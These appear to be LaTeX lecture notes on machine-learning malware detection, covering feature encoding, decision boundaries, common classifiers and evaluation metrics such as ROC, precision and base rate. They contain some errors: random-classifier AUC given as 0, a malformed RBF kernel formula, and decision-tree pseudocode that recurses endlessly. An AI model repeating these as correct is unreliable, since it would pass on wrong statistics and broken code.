e.g., if we have a thousand features and only a thousand training examples:\\
chances are we don’t have enough training examples to teach the ML system what each feature actually says about a given binary

It’s typically better to give a system a \colorbox{pink}{few} features relative to the number of training examples:\\
let the system form well-founded beliefs about which features truly indicate malware

Typically, our data comes in as a two-dimensional array:\\
samples and features

Features can be expressed as numbers (e.g., integer, floating points) or categorical features (not numeric, e.g., strings)

Regardless of the types of features, how we \colorbox{pink}{represent} them can have an \colorbox{pink}{enormous effect} on the performance of machine learning models:\\
e.g., scaling is very important, especially for SVM (rescaling each feature so that they are all approximately on the same scale)

Sometimes it \colorbox{pink}{might be helpful to augment} your data with additional features:\\
e.g., adding interactions (products) of features

By far the most common way to \colorbox{yellow}{represent categorical variables} is using the \colorbox{green}{one-hot-encoding} (one-out-of-N encoding):\\
also known as dummy variables

\colorbox{yellow}{Replace} a categorical variable with \colorbox{yellow}{one or more new features} that can have the values 0 and 1:\\
• the values 0 and 1 make sense in the formula for all models\\
we can represent any number of categories by introducing one new feature per category

For example, for the \colorbox{green}{Android permission protection level} we have \colorbox{yellow}{four possible values} of: ”normal”, ”dangerous”, ”signature” or ”signatureOrSystem”\\
• To encode these four possible values, we create \colorbox{yellow}{four new features}, called ”normal”, ”dangerous”, ”signature” or ”signatureOrSystem”\\
• A feature is 1 if the permission protection level for this permission has the corresponding value, or 0 otherwise\\
\colorbox{yellow}{Exactly one} of the four new features will be 1 for each permission:\\
• this is why this is called one-hot or one-out-of-N encoding

\includegraphics[width=.9\linewidth]{android permission protect level.png}

As reminded previously, selecting the most important and relevant features is key:\\
• using a large number of features creates noise and is detrimental to model accuracy and performance

We can carry out \colorbox{yellow}{feature selection manually}, driven by domain expertise and insights gained from the data exploration phase\\
\colorbox{yellow}{Or} we can select features \colorbox{yellow}{automatically using statistical methods and algorithms}\\
• There are also \colorbox{yellow}{unsupervised feature learning techniques} (e.g., via deep learning methods)

\colorbox{green}{Univariate analysis}:\\
• consider \colorbox{yellow}{how well the model would perform} if it took \colorbox{yellow}{only that feature} as input\\
• iteratively, we can derive a relative score of how well each feature fits the training label distribution\\
• a common use of feature selection by univariate analysis is to \colorbox{yellow}{remove features that don’t vary much} between samples:\\
• if a feature has the same value in 99\% of the samples, it \colorbox{pink}{perhaps isn’t a very helpful} feature to include in the analysis

\colorbox{green}{Recursive feature elimination}:\\
• start with the full feature set and \colorbox{yellow}{recursively consider smaller and smaller subsets} of features\\
• \colorbox{yellow}{analyse} how the \colorbox{yellow}{exclusion} of features \colorbox{yellow}{affects} the accuracy of training the estimator model

\colorbox{green}{Latent feature representations}:\\
• Singular Value Decomposition (\colorbox{green}{SVD}) and Principal Component Analysis (\colorbox{green}{PCA}) \colorbox{yellow}{transform} \colorbox{yellow}{high-dimensional data into a lower-dimensional data space}\\
• designed to \colorbox{yellow}{minimize information loss} while \colorbox{yellow}{reducing the number of features needed} for effective machine learning models\\
• \colorbox{yellow}{PCA extracts} the \colorbox{yellow}{principal components from the} input \colorbox{yellow}{features}, and then \colorbox{yellow}{eliminates all} \colorbox{yellow}{but the top} components that maximize the variance capture:\\
• these methods do not perform “feature selection” (they do not pick out features from the original feature set)\\
• they output features that are the results of matrix transformations

\colorbox{green}{Model-specific feature ranking}:\\
• when an ML algorithm is applied to a dataset, the resulting estimator models is sometimes be expressed as a symbolic combination of the input features\\
• assuming the features are sufficiently normalized (so that their values are of comparable magnitudes), we can eliminate the features with low weights

\subsection{Training ML systems}

After extracting features from training binaries, it’s time to train the ML system

Supervised ML detectors provide the \colorbox{yellow}{same basic interface}:\\
• provide them with training data that contains features from sample binaries:\\
• as well as corresponding labels that tell the algorithm which binaries are malware and which are benignware\\
• the algorithms learn to determine whether or not new, previously unseen binaries are malicious or benign

\subsection{Testing ML Systems}

Once the ML system has been trained, we need to \colorbox{yellow}{measure its accuracy}:\\
• running the trained system on \colorbox{yellow}{data that we didn’t train it with}\\
• seeing how well it determines whether or not the binaries are malicious or benign\\
• to measure how well the systems will detect new malware and avoid producing false positives

\colorbox{pink}{Most ML research involves thousands of cyclic iterations}:\\
• create it, test it, tweak it, test it, tweak it, train it, test it...

The ML approach;

\includegraphics[width=.6\linewidth]{the ml approach.png}

\includegraphics[width=.6\linewidth]{automated ml.png}

\section{Feature Spaces and Decision Boundaries}

A \colorbox{green}{feature} is an \colorbox{yellow}{individual measurable property} or characteristic of a \colorbox{yellow}{phenomenon being observed}

A \colorbox{yellow}{set of numeric features} can be conveniently described by a \colorbox{green}{feature vector}:\\
• an n-dimensional vector of numerical features that represent some object\\
• x(i) is a vector of all the feature values (excluding the label) of the ith instance in the dataset, and y(i) is its label (the desired output value for that instance)\\
• X is a matrix containing all the feature values (excluding labels) of all instances in the dataset\\
• h is our system’s prediction function (a hypothesis)\\
• given an instance’s feature vector x(i), it outputs a predicted value ŷ(i) = h(x(i))

One of the ways of achieving binary classification is using a linear predictor function with a feature vector as input:\\
• calculate the scalar product between the feature vector and a vector of weights\\
• compare the result with a threshold\\
• decide the class based on the comparison

\includegraphics[width=.8\linewidth]{features .png}

A \colorbox{green}{feature space} is the \colorbox{yellow}{geometrical space defined by the selected features}

A \colorbox{green}{decision boundary} is a \colorbox{yellow}{geometrical structure running through} this space such that:\\
• binaries on one side of this boundary are \colorbox{yellow}{defined} as malware\\
• binaries on the other side of the boundary are defined as benignware

When using an ML algorithm to classify files, we extract features so that we can place the samples in the feature space:\\
• we check which side of the decision boundary the samples are on

Feature spaces can be composed of one, two, or three dimensions (features):\\
it also holds for feature spaces with millions of dimensions

\includegraphics[width=\linewidth]{Understanding Feature Spaces and Decision Boundaries.png}

The two-dimensional space in the previous figure is defined by the two features:\\
this is the feature space

There is a \colorbox{yellow}{pattern} in which the black dots (the malware) are generally in the upper-right part of the space:\\
meaning, these have more suspicious imported function calls and more compressed data than the benignware

Simple rule for malware detection system based on these two features:\\
• if a binary has both a lot of compressed data and a lot of suspicious imported function calls, it’s malware\\
• if it has neither a lot of suspicious imported calls nor much compressed data, it’s benignware


In geometrical terms, this rule is a diagonal line that separates the
malware samples from the benignware samples in the feature space:
• such that binaries with sufficient compressed data and imported function calls (defined as malware) are above the line\\
• and the rest of the binaries (defined as benignware) are below the line\\
• \colorbox{yellow}{this is the decision boundary}

A decision boundary, which defines a rule for detecting malware;\\
\includegraphics[width=.6\linewidth]{ml pg44.png}

• Most of the black dots (malware) are on one side of the boundary\\
• Most of the gray dots (benignware) are on the other side of the decision
boundary\\
• Note that it’s \colorbox{pink}{impossible to draw a line that separates all of the samples} from one
another: the black and gray points overlap one another\\
• This boundary will correctly classify new malware samples and benignware samples
in \colorbox{pink}{most cases}:\\
assumption: new (previously-unseen) samples follow the pattern of previous samples\\
(i.e., they are drawn from the same distribution)

So far, we have manually drawn the decision boundary\\
In most cases, however, \colorbox{cyan}{we want}:\\
• a more precise decision boundary (not necessarily a straight line)\\
• an automatically-created boundary

ML algorithms look at data and use an automated process to determine the ideal
decision boundary:\\
• with the goal of achieving the greatest probability of correctly performing detection
on new, previously unseen data

In the next figure, you can see a decision boundary generated by an ML algorithm\\
(specifically, logistic regression):\\
• the decision boundary is learnt by the logistic regression algorithm\\
• right side: the algorithm assigns $\geq$ 50\%probability that binaries are malware\\
• left side: it assigns $\leq$ 50\%probability that a binary is malware

The decision boundary automatically created by training a logistic regression model;\\
\includegraphics[width=.6\linewidth]{mlpage47 (1).png}

Here, the further you go away from the boundary, the higher the probability
is that something could be malware or something benign

Note the shaded regions of the plot:\\
• the dark gray shaded region is the region where the logistic regression model is highly confident\\
• as we get \colorbox{pink}{closer} to the decision boundary, the model has \colorbox{pink}{less confidence}\\

\colorbox{pink}{Logistic regression allows us to move the line}:\\
• depending on how aggressive or safe we want to be\\
• if we move it down, we’ll catch more malware, but get more false positives\\
• if we move it up, we’ll catch less malware, but get fewer false positives\\

\newpage

ML algorithms \colorbox{pink}{can operate} in arbitrarily high dimensional feature spaces:\\
• e.g. next figure shows the decision boundary as a plane separating the points in the 3D
volume:\\
• with more dimensions, logistic regression would create a hyperplane

If you've got more features, things become more complicated;\\
A planar decision boundary through a hypothetical three dimensional feature space created by logistic regression\\
\includegraphics[width=.6\linewidth]{ml pg 49.png}

Not only ML algorithms works in higher dimension, they can also work with \colorbox{pink}{nonlinear} \colorbox{pink}{boundaries}\\
A decision boundary created by the k-nearest neighbors algorithm\\
\includegraphics[width=.6\linewidth]{mlpg50.png}

\newpage

Some ML can \colorbox{pink}{also generate disjointed} (not contiguous) decision boundaries, e.g.:\\
A disjoint decision boundary created by the k-nearest neighbors algorithm;\\
\includegraphics[width=.6\linewidth]{mlpg51.png}

Building ML malware detection models is all about capturing the \colorbox{yellow}{general trend}
that distinguishes the malicious from the benign:\\
• \colorbox{yellow}{without getting distracted} by the outliers or the exceptions that prove the rule

\colorbox{green}{Underfit} models \colorbox{yellow}{ignore outliers} but \colorbox{yellow}{fail} to capture the general trend:\\
• resulting in poor accuracy on new, previously unseen binaries

\colorbox{green}{Overfit} models get \colorbox{yellow}{distracted by outliers} in ways that \colorbox{yellow}{don’t reflect the general trend}:\\
• yielding poor accuracy on previously unseen binaries

\includegraphics[width=.6\linewidth]{ml53pg.png}

The ML model slices the dots down the middle, crudely
separating the data without capturing the diagonal trend

There are only two shades of certainty that the model gives in all of the regions of
the plot:\\
• either the shade is dark gray or it’s white

\includegraphics[width=.6\linewidth]{overfit ml.png}

This model fails to capture the general trend in the data

It obsesses over the exceptions in the data:\\
• including the handful of black dots that occur in the cluster of gray dots\\
• and draws decision boundaries around them\\
• and similarly, on the handful of benignware examples in the malware cluster

On new, previously unseen binaries with features placing them \colorbox{yellow}{close to these
  outliers}:\\
• this model will \colorbox{yellow}{think they are malware}\\
• even though they almost definitely benignware, and vice versa

Let’s contrast the previous underfit and overfit models with the \colorbox{green}{well-fit} model:\\
\includegraphics[width=.6\linewidth]{well fit.png}

This model captures the general trend in the data\\
• It also creates a \colorbox{yellow}{reasonable} model of certainty with respect to its estimate

The model has a \colorbox{yellow}{simple} theory about what \colorbox{yellow}{divides} the malware from the
benignware:\\
• a vertical line with a diagonal notch in the middle of the plot\\

Note the shaded regions in the plot:\\
• the model is only certain that data in the upper-right part of the plot are malware\\
• and that binaries in the lower-left corner of the plot are benignware

\section{Major Types of ML Algorithms}

\includegraphics[width=.9\linewidth]{pg60ml.png}

In dataset shown on the left, we can separate the malware from benignware using a
simple geometric structure (a line)

The dataset on the right is more complex:\\
• we can’t separate the malware from the benignware using a line\\
• however, there’s still a clear pattern\\
• need to use more complex methods to create a decision boundary

\subsection{Logistic Regression}

\colorbox{green}{Logistic regression} is an ML algorithm that creates \colorbox{yellow}{a line}, plane, or hyperplane (depending on the
number of features):\\
• it geometrically separates training malware from training benignware

When we use the trained model to detect new malware, logistic regression:\\
• checks whether a previously unseen binary is on the malware side or the benignware side of the
boundary\\
• it then determines whether it’s malicious or benign

\colorbox{pink}{Limitation}: if the data can’t be separated using a line/hyperplane, logistic regression is not the
right solution

When to \colorbox{yellow}{use} logistic regression:\\
• when a problem contains \colorbox{yellow}{lots of individual features} that on their own are \colorbox{yellow}{strong indicators} of maliciousness
(or “benignness”)

When \colorbox{yellow}{not to use} logistic regression:\\
• when the data need \colorbox{yellow}{complex relationships between features}\\
• k-nearest neighbors, decision trees, or random forest, \colorbox{yellow}{might be more suitable}

\newpage

Logistic regression yields a very effective separation on the dataset on left\\
• In contrast, the performance of logistic regression on the dataset on the right is not effective:\\
• in this case, the logistic regression algorithm gets confused – it can only express a linear decision
boundary

\includegraphics[width=.8\linewidth]{ml63.png}

\subsection{K-Nearest Neighbours}

\colorbox{green}{K-nearest neighbours} is an ML algorithm based on the idea that:\\
• if a binary in the feature space is \colorbox{yellow}{close to other} binaries that are malicious, then it’s
malicious\\
• if it’s features place it close to binaries that are benign, it’s benign

More precisely, if the \colorbox{yellow}{majority} of the k closest binaries to an unknown binary are
malicious, the file is malicious:\\
• k represents the number of nearby neighbours that we pick and define ourselves\\
• depending on how many neighbours we think should be involved in determining whether
a sample is benign or malicious

Base idea: malware will often have \colorbox{yellow}{similar features} to other malware, and
benignware will often have similar features to other benignware

Algorithm:\\
1. Extract the binary’s features and find the k samples that are closest to it in the
feature space\\
2. Divide the number of malware samples that are close to the sample by k to get
the percentage of nearest neighbours that are malicious\\
3. If enough of the samples are malicious, define the sample as malicious

\includegraphics[width=.6\linewidth]{ml66.png}

\includegraphics[width=.8\linewidth]{ml67.png}

We can control the complexity of the boundary to guard against both over- and under-\colorbox{yellow}{fitting by changing k}

As it is not constrained by a linear structure, it can create decision boundaries with arbitrary shapes. Thus, it
models complex datasets more effectively.

\includegraphics[width=.8\linewidth]{ml68.png}

When to use K-nearest neighbours:\\
K-nearest neighbours \colorbox{pink}{works well} when \colorbox{pink}{features don’t map cleanly} onto the
\colorbox{pink}{concept} of suspiciousness:\\

\newpage

closeness to malicious samples is a \colorbox{pink}{strong indicator} of maliciousness, e.g.:\\
• when trying to classify malware into families that share code\\
• classify a malware sample into a family if its features are similar to known members\\

• it also provides \colorbox{pink}{clear explanations} of a given classification decision\\
it’s easy to identify and compare similarities between samples and an unknown sample to
figure out the classification result

\subsection{Decision Trees}

\colorbox{green}{Decision trees} automatically \colorbox{yellow}{generate a series of questions} through a training process to
decide whether or not a given binary is malware, e.g.:

\includegraphics[width=.6\linewidth]{ml70.png}

The tree defines the series of questions to ask of a new (previously unseen) binary’s
features

The node at the top, asks the first question:\\
• is the number of suspicious calls in the tree less than or equal to 40.111?

If the answer is “yes,” the tree asks:\\
• is the percentage of compressed data in the file less than or equal to 37.254?

If the answer is “yes,”the tree ask:\\
• is the number of suspicious calls in the binary less than or equal to 33.836?

If the answer is “yes,” we reach the end of the decision tree:\\
• here, the probability that the binary is malware is 0\%

\includegraphics[width=.8\linewidth]{ml72.png}
\newpage
Pseudocode for building a decision tree algorithm:
\begin{lstlisting}[mathescape]
tree = Tree ()
def add_question ( training_examples ) :
  $\circled{1}$ question = pick_best_question( training_examples )
  $\circled{2}$ uncertainty_yes , yes_samples=ask_question ( question , training_examples , "yes" )
  $\circled{3}$ uncertainty_no , no_samples=ask_question ( question , training_examples , "no" )
  $\circled{4}$ if not uncertainty_yes < MIN_UNCERTAINTY:
    add_question ( yes_samples )
  $\circled{5}$ if not uncertainty_no < MIN_UNCERTAINTY :
    add_question ( no_samples )
  $\circled{6}$ add_question ( training_examples )
\end{lstlisting}

When start building the tree, we use \colorbox{yellow}{\lstinline|pick_best_question()|} to pick the root node \circled{1}

We look at how much uncertainty we have about the training samples for which the
answer is “yes”to the initial question \circled{2}:\\
• to decide if we need to keep asking questions about these samples or we can stop\\
• and predict whether the samples are malicious or benign

We do the same with samples for which we answered “no”for the initial question \circled{3}

We check if the uncertainty on the “yes” samples (uncertainty\_yes) is
sufficiently low to decide whether they are malicious or benign \circled{4} :\\
• if we can determine whether they’re malicious or benign at this point, we don’t ask any
additional questions\\
• otherwise, we call \lstinline|add_question()| again, using \lstinline|yes_samples| (the number of
samples for which we answered “yes”) as input

The next if statement does the same thing for our “no” examples \circled{5}

Finally, we call the building function on the training examples \circled{6}

To \colorbox{yellow}{pick the best question at any point} in the decision tree building process:\\
• we look at the training examples about which we’re still uncertain\\
• enumerate all the questions we could ask about them\\
• then pick the one that best reduces our uncertainty about whether the examples are
malware or benignware

Metrics used to split the set of items:\\
• Gini impurity, variance reduction and information gain\\
• e.g., variance reduction is defined as the total reduction in a set’s variance as a result of
the split into two subsets:\\
the \colorbox{yellow}{best split} at a node in a decision tree would be the split that results in the \colorbox{yellow}{greatest} \colorbox{yellow}{variance
  reduction}

\newpage

Decision boundaries for a sample datasets produced by a decision tree approach with nomaximum \colorbox{yellow}{depth};\\
\includegraphics[width=.8\linewidth]{ml76.png}

Decision boundaries for a sample datasets produced by a limited-depth decision tree;\\
\includegraphics[width=.8\linewidth]{ml77.png}

When to use decision trees:\\
• Decision trees are \colorbox{pink}{expressive and simple}, so they can learn both simple and highly irregular
boundaries\\
• We can also \colorbox{yellow}{set the maximum depth} to control how simple or complex their theories of what
constitutes malware versus benignware should be\\

A downside is that, \colorbox{pink}{often, they are not a very accurate model}:\\
• they express \colorbox{pink}{jagged} decision boundaries, which don’t fit the training data\\
• it does not generalize to previously unseen examples very well\\
• In addition, decision trees \colorbox{pink}{don’t usually learn accurate probabilities} around their decision
boundaries

\subsection{Random Forest}

In real scenarios, typically hundreds or \colorbox{yellow}{thousands of decision trees are used together} to make
detections:\\
• this approach is called \colorbox{green}{random forest}

We \colorbox{yellow}{train} several decision trees \colorbox{yellow}{differently} so that each has a \colorbox{yellow}{different perspective} on the
data

To decide whether a new binary is malicious or benign, we allow the decision trees to \colorbox{yellow}{vote}:\\
• the probability that a binary is malware is the number of positive votes divided by the total number of trees

Requirements: all decision trees should be different:\\
• to generate a \colorbox{pink}{“wisdom of crowds”-based model}, which typically results in a \colorbox{pink}{more accurate} model

Steps to generate a Random Forest algorithm:\\
1. Training: for every tree out of the number we plan to generate (e.g., 100):\\
• randomly sample some training examples from the training set\\
• build a decision tree from the random sample\\
• for each tree, each time we select a question of only few features (by disregarding the
other features)\\
2. Detection on a previously unseen binary\\
• run detection for each individual tree on the binary\\
• decision based on the number of trees that voted “yes”

\includegraphics[width=.9\linewidth]{ml81.png}

Random forest can express much \colorbox{pink}{smoother and more intuitive} decision boundaries than
individual decision trees:\\
• it fits the training dataset very cleanly\\
• no jagged edges\\
• it has learned good theories about what constitutes “malicious versus benign”\\

The shaded regions are \colorbox{pink}{intuitive}:\\
• the further from examples, the less certainty random forest has about whether samples are malicious or
benign\\
• this works very well for performance on previously unseen binaries

Each tree sees only about two-thirds of the training data:\\
• it considers a randomly selected feature when choosing a question\\
• 100 decision boundaries that get averaged to create the final boundaries

\subsection{Support Vector Machines}

Like logistic regression, a \colorbox{green}{support vector machine (SVM)} is (in its simplest form) a \colorbox{yellow}{linear}
classifier:\\
• which means that it produces a hyperplane in a vector space that attempts to separate the two classes
in the dataset

The \colorbox{yellow}{difference} between logistic regression and SVMs is the \colorbox{yellow}{loss function}:\\
• logistic regression uses a \colorbox{pink}{log-likelihood} function that \colorbox{pink}{penalizes} all points \colorbox{pink}{proportionally} to the error in the
\colorbox{pink}{probability} estimate, even those on the correct side of the hyperplane\\
• an SVM, on the other hand, uses a \colorbox{pink}{hinge loss}, which \colorbox{pink}{penalizes} only those points on the \colorbox{pink}{wrong side} of the
hyperplane or \colorbox{pink}{very near it} on the correct side

More specifically, the SVM classifier attempts to find the \colorbox{yellow}{maximum-margin} hyperplane
separating the two classes:\\
• where margin indicates the \colorbox{yellow}{distance} from the \colorbox{yellow}{separating plane} to the \colorbox{yellow}{closest data points} on each side\\
• for the case in which the data is not linearly separable, points within the margin are penalized
proportionately to their distance from the margin

\includegraphics[width=.9\linewidth]{ml84.png}

The solid line is the separating plane and the dashed lines are
the margins

The square points are the support vectors:\\
• that is, those that provide nonzero contribution to the loss function

Support vectors are the data points that lie closest to the decision surface (or
hyperplane):\\
• they are the data points most difficult to classify\\
• \colorbox{green}{support vectors} are the elements of the training set that would change the
\colorbox{yellow}{position} of the dividing hyperplane \colorbox{yellow}{if removed}\\
• the decision function is fully specified by the support vectors

To classify a new data point x, we simply determine which side of the plane x falls on\\
• if we want to get a real-valued score we can compute the distance from x to the
separating plane and then apply a sigmoid to map to [0, 1]

The real power of SVMs comes from the \colorbox{green}{kernel trick}:\\
• which is a \colorbox{yellow}{mathematical transformation} that \colorbox{yellow}{takes a linear} decision boundary and
\colorbox{yellow}{produces} \colorbox{yellow}{a non-linear} boundary\\
• at a high level, a kernel transforms one vector space, $V_1$, to another space, $V_2$\\
• mathematically, the kernel is a function on $V_1$ × $V_1$ defined by $K(x, y)$:\\
and each $x \in V_1$ is mapped to the function $K(x, \cdot)$\\
$V_2$ is the space spanned by all such functions

\includegraphics[width=.9\linewidth]{ml87.png}

If the kernel is non-linear, a linear classifier in V1 will produce a non-linear
classifier in V2:\\
• the most popular choice is the radial basis function (RBF) $K(x, y) = e^{y|xy|}$

You can think of an SVM with the RBF kernel as producing a sort of smoothed linear
combination of spheres around each point x:\\
• where the inside of each sphere is classified the same as x, and the outside is
assigned the opposite class

The parameter $y$ determines the radius of these spheres:\\
• i.e., how close to each point you need to be in order to be classified like that point

The parameter C determines the “smoothing”

SVMs have shown \colorbox{pink}{very good performance} in practice, especially in high-dimensional spaces

They can be described in terms of support vectors leads to efficient implementations
for scoring new data points

However, the \colorbox{pink}{complexity} of training a kernelized SVM \colorbox{pink}{grows quadratically} with the number of
training samples:\\
• so that for training set sizes beyond a few million, kernels are rarely used and the decision boundary is linear

Another disadvantage is that the \colorbox{pink}{scores output} by SVMs are \colorbox{pink}{not interpretable as probabilities}:\\
• converting scores to probabilities requires additional computation and cross-validation

\subsection{No-Free-Lunch Theorem}

Choosing an appropriate classification algorithm for a particular problem task requires practice:\\
• each algorithm has \colorbox{pink}{its own quirks} and is based on certain assumptions\\
• \colorbox{green}{No Free Lunch Theorem}: \colorbox{yellow}{no single classifier works best across all possible scenarios}

Given a noise-free data set (i.e., no random variation, only trend) and a ML algorithm where the
cost function is the error rate:\\
• all ML algorithms are equivalent when assessed with a generalization error rate (the model’s error rate on a
validation data set)

For any two algorithms, A and B, there are as many scenarios where A will perform worse than B
as there are where Awill outperform B:\\
• this even holds true when one of the given algorithms is random guessing\\
• for all possible problem instances drawn from a uniform probability distribution, the average performance for
algorithms A and B is the same

\section{Evaluating Malware Detection Systems}

For model selection, the dataset must be split into parts:\\
• Training is used to learn a model\\
• Validation is used for hyperparameter tuning of the ML algorithm\\
• Testing is used to see performance on a real environment

\includegraphics[width=.6\linewidth]{92ml.png}

After building and running the ML-based malware detection system on a new binary,
four possible outcomes may occur:\\
• True positive: the binary is malware and the system says it is malware\\
• \colorbox{yellow}{False negative} (\colorbox{green}{Type II Error}): the binary is malware and the system says it is not malware\\
• \colorbox{yellow}{False positive} (\colorbox{green}{Type I Error}): the binary is not malware and the system says it is malware\\
• True negative: the binary is not malware and the system says it is not malware

The \colorbox{yellow}{four possible detection outcomes};\\
\includegraphics[width=.6\linewidth]{94ml.png}

The null hypothesis ($H_0$) is a general statement or default position:\\
there is no difference between two measured phenomena or that two samples derive from the same general population

\colorbox{green}{Testing} (\colorbox{yellow}{rejecting or failing to reject}) the null hypothesis means concluding that there are (or there are not) grounds for believing that there is a relationship between two phenomena

The null hypothesis is generally assumed to be true until evidence indicates otherwise:\\
• similar to the case that a defendant of a jury trial is presumed innocent until proven guilty

In the context of \colorbox{cyan}{malware detection}:\\
• the null hypothesis: $H_0$ → the binary is a goodware\\
• The alternate hypothesis: $H_1$ → the binary is a malware

In this context \colorbox{yellow}{Type II errors} (false negative, null hypothesis is false, but erroneously fails to be rejected, in this case missing a malware) are typically \colorbox{yellow}{more important than Type I errors}

Note that in some contexts, depending on the null hypothesis, the reverse holds, e.g. user biometric authentication:\\
• the null hypothesis: $H_0$ → the two samples match\\
• the alternate hypothesis: $H_1$ →the two samples do not match

In these cases, false acceptance (Type I error: accept H0, while in reality
H1 is true) is the more important type of error

\includegraphics[width=.6\linewidth]{ml97.png}

A \colorbox{green}{confusion matrix} is a specific table layout that allows visualization of the
performance of an algorithm, typically a supervised learning one (in unsupervised
learning it is usually called a matching matrix).

Each row of the matrix represents the instances in a predicted class while each
column represents the instances in an actual class (or vice versa)

The name stems from the fact that it \colorbox{pink}{makes it easy to see if the system is
  confusing} two classes (i.e., commonly mislabeling one as another)

\includegraphics[width=.6\linewidth]{ml99.png}

The \colorbox{green}{true positive rate} (sensitivity or recall, TPR) of the detection system calculates the \colorbox{yellow}{percentage of malware samples the system is able to detect}:

\[
  TPR = \frac{TP}{P} = \frac{TP}{TP + FN}
\]

it measures the system’s ability to recognize malware when it “sees” malware

Simply knowing that a detection system will raise alarms when it sees malware is insufficient to evaluate its accuracy:\\
• e.g., a system that always returns “yes, this is malware” on all files would yield a perfect true positive rate

The real test of a detection system is whether (or not):\\
• e.g., a system that always returns “yes, this is malware” on all files would yield a perfect true positive rat\\
• it says “yes, this is malware” when it sees malware, and\\
• it says “no, this is not malware” when it sees benignware

To measure a system’s ability to discern whether something is not malware, we also need to measure the system’s \colorbox{green}{false positive rate} (FPR or fall-out):

\[
  FPR = \frac{FP}{N} = \frac{FP}{FP + TN}
\]

\colorbox{yellow}{the rate at which the system issues a malware alarm when it sees benignware}

In general, we want to \colorbox{pink}{keep the false positive rate as low as possible} while keeping the \colorbox{pink}{true positive} \colorbox{pink}{rate as high as possible}

Suppose the detection system returns a suspiciousness score for each binary:\\
• to return a “yes” or “no”, we need to \colorbox{yellow}{set a threshold}

problem: how do we set a good threshold?\\
• the higher we set the threshold, the less likely we are to get false positives, but the more likely we are to get false negatives\\
• and we face the converse problem if we set a lower threshold

\includegraphics[width=.8\linewidth]{ml102.png}

\colorbox{green}{Receiver Operating Characteristic (ROC) curve} characterize a detection system by \colorbox{yellow}{plotting} \colorbox{yellow}{FPRs} against their associated \colorbox{yellow}{TPRs} at \colorbox{yellow}{various threshold setting}

This \colorbox{pink}{helps us evaluate the tradeoff} between lower FPRs and higher TPRs, and in doing so determine the “best” threshold for our situation:\\
• the higher the FPR, the higher the TPR\\
• the lower the FPR, the lower the TPR

The “curve” of the ROC curve represents:\\
• how the detection system will do on its TPR over all possible FPR\\
• how the detection system will do on its FPR over all possible TRP

Area Under the ROC Curve (\colorbox{pink}{AUC}) is used as \colorbox{pink}{performance metric} (the higher, the better – random classifier has AUC = 0)

\includegraphics[width=.8\linewidth]{ml104.png}

ROC curves tell us how a system will perform in terms of TPR and FPR

However, ROC curves will not tell us the percentage of the system’s alarms that
will be true positives (precision), which is related to the percentage of
binaries the system encounters that are actually malware (base rate)

\colorbox{green}{Precision} (or positive predictive value (\colorbox{green}{PPV})) is the \colorbox{yellow}{percentage of system
  detection alarms} that are \colorbox{yellow}{true positives}.

\[
  PPV = \frac{TP}{TP + FP}
\]

\includegraphics[width=.4\linewidth]{ml106.png}

\colorbox{green}{Base rate (BR)} is the \colorbox{yellow}{percentage} of the data fed to the system that has the \colorbox{yellow}{quality
  we are} \colorbox{yellow}{looking for}

In our case, base rate refers to the percentage of binaries that are \colorbox{yellow}{actually malware}. The base-rate fallacy is best described through example:

Suppose that your doctor performs a test that is 99\% accurate:\\
• that is, when the test was administered to a test population all of whom had the disease, 99\% of the tests indicated disease\\
• and likewise, when the test population was known to be 100\% free of the disease, 99\% of the test results were negative

Upon visiting your doctor to learn the results, he tells you he has good news and bad news:\\
• the bad news is that indeed you tested positive for the disease\\
• the good news, however, is that, out of the entire population, the rate of incidence is only 1 / 10,000

What, given this information, is the probability of your having the disease?

Let S denote sick, and ¬S, that is, not S, denote healthy\\
Let R denote a positive test result and ¬R denote a negative test result\\
Using Bayes’ theorem we have:

\[
  Pr(S|R) = \frac{Pr(S) Pr(R|S)}{Pr(S) Pr(R|S) + Pr(\text{\textlnot}S) Pr(R|\text{\textlnot}S)}
\]

The only probability above that we do not immediately know is $Pr(R|\text{\textlnot}S)$:\\
this is easily found though, since it is merely $1 - Pr(\neg R|\neg S)$\\
likewise, $Pr(\neg S) = (1 - Pr(S))$

Substituting the stated values for the different quantities in we get that your chance of actually having the disease is only 1 / 100:\\
• because the population of healthy people is much larger than the population with the disease

\colorbox{green}{Base-rate fallacy in reverse}: setting off an \colorbox{yellow}{alarm too many times} in response to \colorbox{yellow}{non-intrusions}, combined with the fact that we \colorbox{yellow}{do not have many intrusions} even for low false positive rate

The detection system’s TPR and FPR do not change when the BR changes

Instead, the system’s precision affected by changes in the malware base rate

Example: suppose the FPR is 1\% and the TPR is 100\%:
• in an environment with no malware, precision will be 0\% (every alarm is a false positive)
• in an environment with only malware, precision will be 100\% (no alarm will be a false positive)

What if we want to \colorbox{pink}{estimate the precision based on an estimate of the base rate} of the environment?

\[
  TP = TPR \cdot BR
  FP = FPR \cdot (1 - BR)
  PPV = \frac{TPR \cdot BR}{TPR \cdot BR + FPR \cdot (1 - BR)}
\]

Suppose we have a detection system that has a 10\% FPR and 80\% TPR:\\
if the BR is 50\%, then the expected precision is 89\%\\
if the BR is 10\%, the precision drops to 47\%\\
if the BR is 1\%, we get a precision of about 7.5\% (92.5\% of our system’s alarms would be FP)\\
if the BR is 0.1\%, we get a precision of 1\% (99\% of our system’s alarms would be false positives)\\
if the BR is 0.01\%, we get a precision of 0.1\% (the overwhelming majority of our system’s alerts will be false positives)

\colorbox{green}{$F_1$-score} is defined as the \colorbox{yellow}{harmonic mean of precision and recall}

\[
  F_1 = 2 \cdot \frac{PPV \cdot TPR}{PPV + TPR}
\]

\colorbox{green}{Accuracy} is the \colorbox{yellow}{proportion of true results} (both true positives and true negatives) \colorbox{yellow}{among the total} \colorbox{yellow}{number of cases} examined:

\[
  ACC = \frac{TP + TN}{TP + TN + FP + FN}
\]

\colorbox{pink}{Accuracy can be misleading with very unbalanced datasets}:\\
e.g., a classifier that predicts always benign, will have 99\% accuracy on a
dataset with 99\% of benignware and 1\% of malware


\end{document}